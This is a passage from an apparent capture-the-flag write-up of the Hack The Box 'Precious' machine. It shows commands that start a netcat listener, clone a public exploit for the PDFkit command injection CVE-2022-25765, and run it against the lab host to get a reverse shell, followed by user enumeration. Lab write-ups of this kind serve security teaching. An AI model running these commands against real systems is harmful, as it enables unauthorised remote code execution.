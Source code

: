 ```bash
rlwrap nc -nlvp 4444
git clone https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765
cd PDFkit-CMD-Injection-CVE-2022-25765
python3 CVE-2022-25765.py -t http://precious.htb -a 10.10.16.9 -p 4444
```

![](/assets/Precious/6.png)

<br />
<br />
<br />

We can **enumerate users** to find that **there is another user aside from *ruby***, which is the one we got remote code execution as:

```bash
ls -la /home
```

![](/assets/Precious/7.png)

<br />
<br />
<br />

While performing enumeration, we will find ***.bundle***, an **uncommon hidden folder** in **ruby's home folder**:

```bash
ls -la /home/ruby
```
